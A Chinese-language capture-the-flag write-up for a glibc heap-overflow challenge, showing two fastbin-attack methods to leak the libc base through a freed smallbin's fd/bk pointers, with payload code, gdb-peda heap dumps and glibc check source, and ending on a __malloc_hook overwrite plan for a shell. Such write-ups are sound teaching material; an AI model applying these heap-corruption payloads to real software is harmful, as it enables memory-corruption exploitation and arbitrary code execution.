


# 零碎的基础知识：<br>
1.fastbin和smallbin在main_arena中链表结构是不一样的。fastbin是单向链表，由fastbin指向chunk,但是smallbin/unsortbin/largebin都是双向链表，这样在free掉
上面所说的三个bin的时候，就会在fd以及bk上保存着main_arena+xx偏移的相应的基址，所以可以通过某种方式在free掉small/lagre/unsortbin之后将他们的fd或bk读出来<br>

2.one_gadget(用来找execve("/bin/sh")的)<br>
constraints是约束条件，在跳转到one_gadget之前必须满足的条件
<br>

3.main_arean与libc基址的关系<br>
main_arena是heap各种bin的结构体，他的偏移量可以在libc.so中malloc_trim()这个函数中找到,如图中为0x3c4b20<br>
<br>

# 题目分析：<br>
<br>
漏洞点在allocate的时候申请一个大小，但是在fill的时候可以无视这个大小去填充，所以这里存在堆溢出<br>
## 1.fastbin attak：<br>
核心思想是通过smallbin的fd或bk泄露main_arena的地址<br>
### 两种leak libc的方式:<br>
1> 通过修改smallbin的size,使得可以用其他bin如fastbin指向一个smallbin，之后再将smallbin的size修改回来，free掉smallbin,然后通过指向smallbin的fastbin将smallbin的fd和bk读出来<br>
2> 由于fastbin和smallbin在申请的时候堆地址的位置相邻，所以可以通过修改fastbin的size。让临近smallbin的fastbin的size，设置成刚好能够读取到smallbin的fd和bk的大小，然后free smallbin，通过相邻的fastbin来读取smallbin的fd和bk。<br>

## 具体实现：<br>
### 1>fastbin指向smallbin泄露libc<br>
#### 第一步
先申请以下五个chunk,其中0-3是fastbin，4是smallbin
```
alloc(0x10) #0
alloc(0x10) #1
alloc(0x10) #2
alloc(0x10) #3
alloc(0x80) #4

gdb-peda$ x /64wx 0x555555757060
0x555555757060:	0xf7ffd9d8	0x00007fff	0x00000021	0x00000000      -->chunk0(fastbin, in use)
0x555555757070:	0x00000000	0x00000000	0x00000000	0x00000000
0x555555757080:	0x00000000	0x00000000	0x00000021	0x00000000      -->chunk1(fastbin, in use)
0x555555757090:	0x00000000	0x00000000	0x00000000	0x00000000
0x5555557570a0:	0x00000000	0x00000000	0x00000021	0x00000000      -->chunk2(fastbin, in use)
0x5555557570b0:	0x00000000	0x00000000	0x00000000	0x00000000
0x5555557570c0:	0x00000000	0x00000000	0x00000021	0x00000000      -->chunk3(fastbin, in use)
0x5555557570d0:	0x00000000	0x00000000	0x00000000	0x00000000
0x5555557570e0:	0x00000000	0x00000000	0x00000091	0x00000000      -->chunk4(smallbin, in use)
0x5555557570f0:	0x00000000	0x00000000	0x00000000	0x00000000
0x555555757100:	0x00000000	0x00000000	0x00000000	0x00000000
0x555555757110:	0x00000000	0x00000000	0x00000000	0x00000000
0x555555757120:	0x00000000	0x00000000	0x00000000	0x00000000
```

#### 第二步
将chunk1和chunk2链在fastbin链表上，此时： fastbin->chunk2,chunk2->fd->chunk1
```
#为了将 chunk4(smallbin) 放在fastbin的链表上 
free(1)
free(2)

gdb-peda$ x /64wx 0x555555757060
0x555555757060:	0xf7ffd9d8	0x00007fff	0x00000021	0x00000000      -->chunk0(fastbin, in use)
0x555555757070:	0x00000000	0x00000000	0x00000000	0x00000000
0x555555757080:	0x00000000	0x00000000	0x00000021	0x00000000      -->chunk1(fastbin, free)
0x555555757090:	0x00000000	0x00000000	0x00000000	0x00000000
0x5555557570a0:	0x00000000	0x00000000	0x00000021	0x00000000      -->chunk2(fastbin, free)
0x5555557570b0:	0x55757080	0x00005555	0x00000000	0x00000000
0x5555557570c0:	0x00000000	0x00000000	0x00000021	0x00000000      -->chunk3(fastbin, in use)
0x5555557570d0:	0x00000000	0x00000000	0x00000000	0x00000000
0x5555557570e0:	0x00000000	0x00000000	0x00000091	0x00000000      -->chunk4(smallbin, in use)
0x5555557570f0:	0x00000000	0x00000000	0x00000000	0x00000000
0x555555757100:	0x00000000	0x00000000	0x00000000	0x00000000
0x555555757110:	0x00000000	0x00000000	0x00000000	0x00000000
0x555555757120:	0x00000000	0x00000000	0x00000000	0x00000000

gdb-peda$ heap fastbin
FASTBINS:
Fastbin0 : 
0x5555557570a0 SIZE=0x20 DATA[0x5555557570b0] |.puUUU..................!.......| INUSED PREV_INUSE
0x555555757080 SIZE=0x20 DATA[0x555555757090] |........................!.......| INUSED PREV_INUSE

```

#### 第三步
破坏fastbin的链表<br>
原本:fastbin->chunk2, chunk2->fd->chunk1<br>
破坏后:fastbin->chunk2, chunk2->fd->chunk4<br>
```
payload ='A'*0x10 #the data of chunk0
payload+=p64(0) + p64(0x21) + 'A'*0x10 #chunk1
payload+=p64(0) + p64(0x21) + p8(0xe0)  #the header of chunk2
fill(0,payload) #使用chunk0去overwrite chunk2->fd,让chunk2->fd由chunk1改变成chunk4(smallbin) 

gdb-peda$ x /64wx 0x555555757060
0x555555757060:	0xf7ffd9d8	0x00007fff	0x00000021	0x00000000      -->chunk0(fastbin, in use)
0x555555757070:	0x41414141	0x41414141	0x41414141	0x41414141
0x555555757080:	0x00000000	0x00000000	0x00000021	0x00000000      -->chunk1(fastbin, free)
0x555555757090:	0x41414141	0x41414141	0x41414141	0x41414141
0x5555557570a0:	0x00000000	0x00000000	0x00000021	0x00000000      -->chunk2(fastbin, free)
0x5555557570b0:	0x557570e0	0x00005555	0x00000000	0x00000000
0x5555557570c0:	0x00000000	0x00000000	0x00000021	0x00000000      -->chunk3(fastbin, in use)
0x5555557570d0:	0x00000000	0x00000000	0x00000000	0x00000000
0x5555557570e0:	0x00000000	0x00000000	0x00000091	0x00000000      -->chunk4(smallbin, in use)
0x5555557570f0:	0x00000000	0x00000000	0x00000000	0x00000000
0x555555757100:	0x00000000	0x00000000	0x00000000	0x00000000
0x555555757110:	0x00000000	0x00000000	0x00000000	0x00000000

gdb-peda$ heap fastbin
FASTBINS:
Fastbin0 : 
0x5555557570a0 SIZE=0x20 DATA[0x5555557570b0] |.puUUU..................!.......| INUSED PREV_INUSE
0x5555557570e0 SIZE=0x20 DATA[0x5555557570f0] |................................| PREV_INUSE INUSED
```

#### 第四步
为了alloc得到chunk4,必须要经过malloc的检测
```
if (__builtin_expect (fastbin_index (chunksize (victim)) != idx, 0))
{
    errstr = "malloc(): memory corruption (fast)";
errout:
    malloc_printerr (check_action, errstr, chunk2mem (victim), av);
    return NULL;
}
```
chunk4的chunksize的计算方法是`victim->size & ~(SIZE_BITS)`，即`chunk4->size & ~(SIZE_BITS)`,即`0x91 & ~(0x3)`,结果是`0x90`
```
#define PREV_INUSE 0x1
#define IS_MMAPPED 0x2
#define SIZE_BITS PREV_INUSE|IS_MMAPPED
#define chunksize(p) (*(((unsigned int *)p)-1) & ~(SIZE_BITS))//取出size去掉后两标志位影响，8字节对齐
```
chunk4的fastbin_index计算方法如下，结果为`(0x90>>4)-2=7`
```
#define fastbin_index(sz) \
  ((((unsigned int) (sz)) >> (SIZE_SZ == 8 ? 4 : 3)) - 2) //x86-64 SIZE_SZ=8, I386 SIZE_SZ=4
```
chunk2的chunksize的结果是0x20，fastbin_index的值是0x0<br>
所以chunk4挂在了idx=0的fastbin上面，chunk4的的size也必须要被修改成0x21<br>
```
payload='A'*0x10 + p64(0) + p64(0x21) #the header of chunk4
fill(3, payload) #通过fill chunk3 去overwrite the size of chunk4

gdb-peda$ x /64wx 0x555555757060
0x555555757060:	0xf7ffd9d8	0x00007fff	0x00000021	0x00000000      -->chunk0(fastbin, in use)
0x555555757070:	0x41414141	0x41414141	0x41414141	0x41414141
0x555555757080:	0x00000000	0x00000000	0x00000021	0x00000000      -->chunk1(fastbin, free)
0x555555757090:	0x41414141	0x41414141	0x41414141	0x41414141
0x5555557570a0:	0x00000000	0x00000000	0x00000021	0x00000000      -->chunk2(fastbin, free)
0x5555557570b0:	0x557570e0	0x00005555	0x00000000	0x00000000
0x5555557570c0:	0x00000000	0x00000000	0x00000021	0x00000000      -->chunk3(fastbin, in use) 
0x5555557570d0:	0x41414141	0x41414141	0x41414141	0x41414141
0x5555557570e0:	0x00000000	0x00000000	0x00000021	0x00000000      -->chunk4(smallbin, in use)
0x5555557570f0:	0x00000000	0x00000000	0x00000000	0x00000000
0x555555757100:	0x00000000	0x00000000	0x00000000	0x00000000
0x555555757110:	0x00000000	0x00000000	0x00000000	0x00000000

gdb-peda$ heap fastbin
FASTBINS:
Fastbin0 : 
0x5555557570a0 SIZE=0x20 DATA[0x5555557570b0] |.puUUU..................!.......| INUSED PREV_INUSE
0x5555557570e0 SIZE=0x20 DATA[0x5555557570f0] |................................| PREV_INUSE INUSED
```

#### 第五步
将chunk2和chunk4从fastbin链上取出，fastbin是单向链表，FILO<br>
chunk2重新alloc的时候index会变成1，chunk4重新alloc的时候index会变成2<br>
```
alloc(0x10)
alloc(0x10)

gdb-peda$ x /64wx 0x555555757060
0x555555757060:	0xf7ffd9d8	0x00007fff	0x00000021	0x00000000      -->chunk0(fastbin, in use)
0x555555757070:	0x41414141	0x41414141	0x41414141	0x41414141
0x555555757080:	0x00000000	0x00000000	0x00000021	0x00000000      -->old-chunk1(fastbin, free)
0x555555757090:	0x41414141	0x41414141	0x41414141	0x41414141
0x5555557570a0:	0x00000000	0x00000000	0x00000021	0x00000000      -->new-chunk1(fastbin, in use)
0x5555557570b0:	0x00000000	0x00000000	0x00000000	0x00000000
0x5555557570c0:	0x00000000	0x00000000	0x00000021	0x00000000      -->chunk3(fastbin, in use) 
0x5555557570d0:	0x41414141	0x41414141	0x41414141	0x41414141
0x5555557570e0:	0x00000000	0x00000000	0x00000021	0x00000000      -->new-chunk2(fake fastbin, in use)&&chunk4(smallbin, in use)
0x5555557570f0:	0x00000000	0x00000000	0x00000000	0x00000000
0x555555757100:	0x00000000	0x00000000	0x00000000	0x00000000
0x555555757110:	0x00000000	0x00000000	0x00000000	0x00000000

gdb-peda$ heap all
0x555555757000 SIZE=0x30 DATA[0x555555757010] |................................| INUSED PREV_INUSE
0x555555757030 SIZE=0x30 DATA[0x555555757040] |................................| INUSED PREV_INUSE
0x555555757060 SIZE=0x20 DATA[0x555555757070] |AAAAAAAAAAAAAAAA........!.......| INUSED PREV_INUSE  -->chunk0(fastbin, in use)
0x555555757080 SIZE=0x20 DATA[0x555555757090] |AAAAAAAAAAAAAAAA........!.......| INUSED PREV_INUSE  -->old-chunk1(fastbin, free)
0x5555557570a0 SIZE=0x20 DATA[0x5555557570b0] |........................!.......| INUSED PREV_INUSE  -->new-chunk1(fastbin, in use)
0x5555557570c0 SIZE=0x20 DATA[0x5555557570d0] |AAAAAAAAAAAAAAAA........!.......| INUSED PREV_INUSE  -->chunk3(fastbin, in use)
0x5555557570e0 SIZE=0x20 DATA[0x5555557570f0] |................................| PREV_INUSE INUSED  -->new-chunk2&&chunk4(smallbin, in use)
overlap at 0x555555757100 -- size=0x0
Chunk None
```

#### 第六步
此时chunk2和chunk4指向的都是smallbin<br>
我们只需要将chunk4的size在修改成0x91，free(chunk4)的时候就会将chunk4链接在main_arena的smallbin结构上，smallbin是双向链表，所以chunk4的fd和bk都会指向main_arena的smallbin的位置<br>
再使用指向已经free之后chunk4的chunk2，dump(chunk2),就能将chunk4的fd和bk读出来了
```
#free smallbin to get the main_arena_addr in its fd
payload='A'*0x10 + p64(0) + p64(0x91)#修复chunk4的size
fill(3, payload)
free(4) #populated the fd of the chunk4 with main_arena addr
dump(2)


gdb-peda$ x /64wx 0x555555757060
0x555555757060:	0xf7ffd9d8	0x00007fff	0x00000021	0x00000000
0x555555757070:	0x41414141	0x41414141	0x41414141	0x41414141
0x555555757080:	0x00000000	0x00000000	0x00000021	0x00000000
0x555555757090:	0x41414141	0x41414141	0x41414141	0x41414141
0x5555557570a0:	0x00000000	0x00000000	0x00000021	0x00000000
0x5555557570b0:	0x00000000	0x00000000	0x00000000	0x00000000
0x5555557570c0:	0x00000000	0x00000000	0x00000021	0x00000000
0x5555557570d0:	0x41414141	0x41414141	0x41414141	0x41414141
0x5555557570e0:	0x00000000	0x00000000	0x0000b1d1	0x00000000      -->new-chunk2(fake fastbin, in use)&&chunk4(smallbin, free)
0x5555557570f0:	0xf7bcbb78	0x00007fff	0xf7bcbb78	0x00007fff
0x555555757100:	0x00000000	0x00000000	0x00000000	0x00000000
0x555555757110:	0x00000000	0x00000000	0x00000000	0x00000000
0x555555757120:	0x00000000	0x00000000	0x00000000	0x00000000
0x555555757130:	0x00000000	0x00000000	0x00000000	0x00000000
0x555555757140:	0x00000000	0x00000000	0x00000000	0x00000000
0x555555757150:	0x00000000	0x00000000	0x00000000	0x00000000

gdb-peda$ heap all
0x555555757000 SIZE=0x30 DATA[0x555555757010] |................................| INUSED PREV_INUSE
0x555555757030 SIZE=0x30 DATA[0x555555757040] |................................| INUSED PREV_INUSE
0x555555757060 SIZE=0x20 DATA[0x555555757070] |AAAAAAAAAAAAAAAA........!.......| INUSED PREV_INUSE
0x555555757080 SIZE=0x20 DATA[0x555555757090] |AAAAAAAAAAAAAAAA........!.......| INUSED PREV_INUSE
0x5555557570a0 SIZE=0x20 DATA[0x5555557570b0] |........................!.......| INUSED PREV_INUSE
0x5555557570c0 SIZE=0x20 DATA[0x5555557570d0] |AAAAAAAAAAAAAAAA................| INUSED PREV_INUSE
0x5555557570e0 SIZE=0xb1d0 DATA[0x5555557570f0] |x.......x.......................| PREV_INUSE INUSED    -->new-chunk2(fake fastbin, in use)&&chunk4(smallbin, free)
0x5555557622b0 SIZE=0x90 DATA[0x5555557622c0] |console-kit-daemon;cc1plus;make;| INUSED
0x555555762340 SIZE=0x15cc0 TOP_CHUNK
Last Remainder:  0x555555757170
```
泄露libc完成~

### 2>fastbin包含smallbin泄露libc<br>
#### 第一步
首先申请三个堆块，chunk0,1,2。用chunk0来overwrite,伪造一个大的chunk1，去读chunk2(smallbin)的fd
```
alloc(0x30)
alloc(0x10)
alloc(0x100)

gdb-peda$ x /64wx 0x555555757060
0x555555757060:	0xf7ffd9d8	0x00007fff	0x00000041	0x00000000      -->chunk0(fastbin, in use)
0x555555757070:	0x00000000	0x00000000	0x00000000	0x00000000
0x555555757080:	0x00000000	0x00000000	0x00000000	0x00000000
0x555555757090:	0x00000000	0x00000000	0x00000000	0x00000000
0x5555557570a0:	0x00000000	0x00000000	0x00000021	0x00000000      -->chunk1(fastbin, in use)
0x5555557570b0:	0x00000000	0x00000000	0x00000000	0x00000000
0x5555557570c0:	0x00000000	0x00000000	0x00000111	0x00000000      -->chunk2(smallbin, in use)
0x5555557570d0:	0x00000000	0x00000000	0x00000000	0x00000000
0x5555557570e0:	0x00000000	0x00000000	0x00000000	0x00000000
```

#### 第二步
Using chunk0 to overwrite the size of chunk1.<br>
但是在free的时候，要经过free的一个检查机制
```
#ifndef INTERNAL_SIZE_T
# define INTERNAL_SIZE_T size_t
#endif
/* The corresponding word size.  */
#define SIZE_SZ (sizeof (INTERNAL_SIZE_T))

if (__builtin_expect (nextchunk->size <= 2 * SIZE_SZ, 0)
     || __builtin_expect (nextsize >= av->system_mem, 0))
{
     errstr = "free(): invalid next size (normal)";
     goto errout;
}
```
所以free的时候要满足伪造的chunk的`nextchunk->sixe > 2 * SIZE_SZ`，等价于`nextchunk->size > 16` 
```
payload='A'*0x30 + p64(0) + p64(0x41) + 'B'*0x30 + p64(0) + p64(0x41) 
fill(0,payload)
free(1)

gdb-peda$ x /64wx 0x555555757060
0x555555757060:	0xf7ffd9d8	0x00007fff	0x00000041	0x00000000      -->chunk0(fastbin, in use)
0x555555757070:	0x41414141	0x41414141	0x41414141	0x41414141
0x555555757080:	0x41414141	0x41414141	0x41414141	0x41414141
0x555555757090:	0x41414141	0x41414141	0x41414141	0x41414141
0x5555557570a0:	0x00000000	0x00000000	0x00000041	0x00000000      --------------------------------|
0x5555557570b0:	0x42424242	0x42424242	0x42424242	0x42424242                                      |--->fake chunk1(fastbin, free)
0x5555557570c0:	0x42424242	0x42424242	0x42424242	0x42424242      -->chunk2(smallbin, in use)     |
0x5555557570d0:	0x42424242	0x42424242	0x42424242	0x42424242      ------------------------------- |
0x5555557570e0:	0x00000000	0x00000000	0x00000041	0x00000000      -->fake chunk3(fastbin, fake in use)
0x5555557570f0:	0x00000000	0x00000000	0x00000000	0x00000000      
0x555555757100:	0x00000000	0x00000000	0x00000000	0x00000000
0x555555757110:	0x00000000	0x00000000	0x00000000	0x00000000
0x555555757120:	0x00000000	0x00000000	0x00000000	0x00000000
0x555555757130:	0x00000000	0x00000000	0x00000000	0x00000000
```
可以看出修改之后的chunk1包含了chunk2的前0x20个字节，包含了chunk2的fd和bk区域,此时的堆栈情况如下,由于需要过free的检查机制，伪造了另一个chunk3<br>
为什么没有chunk2在heap里面消失了，目前没找到合理的解释，我的猜测是free fake chunk1的时候，由于校验了nextchunksize，所以把fake chunk3当成chunk2更新进heap了，实际上chunk2还是在`0x5555557570c0`这个地址
```
gdb-peda$ heap all
0x555555757000 SIZE=0x30 DATA[0x555555757010] |................................| INUSED PREV_INUSE
0x555555757030 SIZE=0x30 DATA[0x555555757040] |................................| INUSED PREV_INUSE
0x555555757060 SIZE=0x40 DATA[0x555555757070] |AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA| INUSED PREV_INUSE      -->chunk0(fastbin, in use)
0x5555557570a0 SIZE=0x40 DATA[0x5555557570b0] |........BBBBBBBBBBBBBBBBBBBBBBBB| INUSED PREV_INUSE
0x5555557570e0 SIZE=0x40 DATA[0x5555557570f0] |................................| PREV_INUSE INUSED      -->fake chunk3(fastbin, fake in use)
overlap at 0x555555757120 -- size=0x0
Chunk None
gdb-peda$ heap fastbin
FASTBINS:
Fastbin2 : 
0x5555557570a0 SIZE=0x40 DATA[0x5555557570b0] |........BBBBBBBBBBBBBBBBBBBBBBBB| INUSED PREV_INUSE      -->fake chunk1(fastbin, free)
```

#### 第三步
修复chunk2的size,然后free掉chunk2，这个时候chunk2的fd和bk就会被填充成main_arena上smallbin所在的地址，然后使用fake chunk1将chunk2的前0x20个字节dump出来
```
alloc(0x30)
payload='A'*0x10 + p64(0) + p64(0x111)
fill(1,payload)
free(2)
dump(1)

gdb-peda$ x /64wx 0x555555757060
0x555555757060:	0xf7ffd9d8	0x00007fff	0x00000041	0x00000000      -->chunk0(fastbin, in use)
0x555555757070:	0x41414141	0x41414141	0x41414141	0x41414141
0x555555757080:	0x41414141	0x41414141	0x41414141	0x41414141
0x555555757090:	0x41414141	0x41414141	0x41414141	0x41414141
0x5555557570a0:	0x00000000	0x00000000	0x00000041	0x00000000      --------------------------------|
0x5555557570b0:	0x41414141	0x41414141	0x41414141	0x41414141                                      |--->fake chunk1(fastbin, in use)
0x5555557570c0:	0x00000000	0x00000000	0x0000b1f1	0x00000000      -->chunk2(smallbin, free)       |
0x5555557570d0:	0xf7bcbb78	0x00007fff	0xf7bcbb78	0x00007fff      ------------------------------- |     
0x5555557570e0:	0x00000000	0x00000000	0x00000000	0x00000000
0x5555557570f0:	0x00000000	0x00000000	0x00000000	0x00000000
0x555555757100:	0x00000000	0x00000000	0x00000000	0x00000000
```
以上是泄露两种基址的方法

## getshell
泄露出libc基址意味着libc.so里面所有的东西都知道在哪里了，这里就需要找到一个执行任意命令的地方了
### __malloc_hook
malloc执行的时候会去读取__malloc_hook这个地方的值，然后判断是否为空，如果不为空就执行这个__malloc_hook，而__malloc_hook可以通过伪造fastbin链，去写__malloc_hook这个地方的值
```
void *(*hook) (size_t, const void *)
   = atomic_forced_read (__malloc_hook);
 if (__builtin_expect (hook != NULL, 0))
   return (*hook)(bytes, RETURN_ADDRESS (0));
```


https://dangokyo.me/2017/12/12/introduction-on-ptmalloc-part-2/

